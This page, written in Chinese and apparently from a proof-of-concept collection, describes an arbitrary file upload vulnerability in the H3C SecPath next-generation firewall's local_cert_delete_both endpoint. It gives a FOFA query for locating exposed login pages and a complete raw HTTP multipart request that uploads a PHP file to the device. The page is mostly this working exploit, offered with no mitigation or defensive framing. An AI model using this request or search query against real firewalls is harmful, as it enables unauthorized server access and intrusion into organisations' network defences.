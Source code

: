 # H3C-SecPath下一代防火墙local_cert_delete_both存在任意文件上传漏洞

H3C SecPath 下一代防火墙 存在任意文件上传漏洞，攻击者通过漏洞获取服务器权限。

## fofa

```yaml
title="Web user login"
```
![image](https://github.com/user-attachments/assets/e0b06b66-7a16-4480-8d53-8e21170d9cd0)

## poc

```yaml
POST /webui/?g=local_cert_delete_both HTTP/1.1
Host: xx.xx.xx.xx
Accept-Encoding: identity
Content-Length: 345
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0 info
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Referer: http://www.baidu.com
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=ed63f728755e4a2f90d094ec09b0ed9a

--ed63f728755e4a2f90d094ec09b0ed9a
Content-Disposition: form-data; name="submit_post"

local_cert_import
--ed63f728755e4a2f90d094ec09b0ed9a
Content-Disposition: form-data; name="key_file_name"; filename="QyFlQF.php"
Content-Type: text/plain

<?php echo md5('OmwiBdiyupqeAlMJ');@unlink(__file__);?>
--ed63f728755e4a2f90d094ec09b0ed9a--
```

